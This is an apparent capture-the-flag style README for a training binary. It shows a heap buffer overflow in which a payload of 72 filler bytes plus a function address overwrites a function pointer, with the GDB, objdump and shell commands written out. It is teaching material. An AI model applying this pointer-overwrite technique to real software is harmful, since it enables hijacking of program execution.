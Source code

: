 # ex10 README

## Objective

The goal of this exercise is to exploit a vulnerability to see the message "level passed".

## Steps

### 1\. Initial Setup

Start by examining the binary using common tools:

```sh
strings bin
objdump -t bin
gdb -q ./bin
```

### 2\. Analyze the Binary with `strings`

Running `strings` on the binary provided some useful information:

```plaintext
strings bin
```

Key strings found:

- `strcpy`
- `puts`
- `printf`
- `malloc`
- "level passed"
- "level has not been passed"
- "data is at %p, fp is at %p"

These strings indicate potential points of interest and vulnerabilities.

### 3\. Examine Symbols with `objdump`

Using `objdump` to list symbols:

```sh
objdump -t bin
```

Key functions found:

- `08048464 g F .text 00000014 winner`
- `08048478 g F .text 00000014 nowinner`

The goal is to redirect execution to the `winner` function (`0x08048464`).

### 4\. Disassemble the `main` Function with GDB

Start GDB and set a breakpoint at `main`:

```sh
gdb -q ./bin
(gdb) break main
(gdb) run
(gdb) disassemble main
```

Key points from disassembly:

```plaintext
0x080484ac <+32>: call   0x8048388 <malloc@plt>
0x080484f2 <+102>: call   0x8048368 <strcpy@plt>
0x080484fd <+113>: call   *%eax
```

### 5\. Determine the Memory Layout

Run the program with a simple input and inspect memory:

```sh
./bin AAAA
```

GDB output:

```plaintext
(gdb) x/32x $esp
0xbfcccce0: 0x08048520 0x080483b0 0x00000000 0xb758d64d
...
0xbfcccda4: 0x00000002 0xbfcccda4 0xbfcccdb0 0xb771fcea
...
0xbfcccdf0: 0x08048564 0x00000000 0x00000000 0x00000000
```

### 6\. Find the Correct Offset

Run a Python script to determine the exact offset:

```sh
for i in $(seq 1 100); do
    python -c "print('A'*$i + ' %p' * 10)" | ./bin;
done
```

Observe the output to find where the `AAAA...` sequence appears.

### 7\. Craft the Payload

We determined that the function pointer is located 72 bytes into the allocated buffer. The payload needs to overwrite this pointer with the address of the `winner` function (`0x08048464`).

### Example Payload Construction

Construct the payload with 72 'A' characters followed by the `winner` address:

```sh
python -c "print('A'*72 + '\x64\x84\x04\x08')"
```

### 8\. Provide Payload as an Argument

Run the program with the crafted payload as an argument:

```sh
./bin $(python -c "print('A'*72 + '\x64\x84\x04\x08')")
```

### 9\. Verify the Output

Successful output:

```plaintext
data is at 0x93b9008, fp is at 0x93b9050
level passed
```

![Succsess Flag](./images/image.png)


### Conclusion

By analyzing the binary and using trial and error to determine the exact buffer layout and function pointer location, we successfully crafted a payload to redirect execution to the `winner` function, printing "level passed".

### Challenges and Learnings

- **Challenge**: Identifying the exact offset to the function pointer.
- **Solution**: Systematic testing and memory inspection with GDB.
- **Learning**: The importance of understanding heap memory layout and careful payload construction.

### Summary

1. **Analyze Binary**: Used `strings`, `objdump`, and GDB to understand the binary.
2. **Determine Offset**: Found the exact offset to the function pointer using a systematic approach.
3. **Craft Payload**: Created a payload to overwrite the function pointer with the address of the `winner` function.
4. **Execute Payload**: Successfully executed the payload to print "level passed".

By following these steps and understanding the exploitation process, we successfully completed the level.
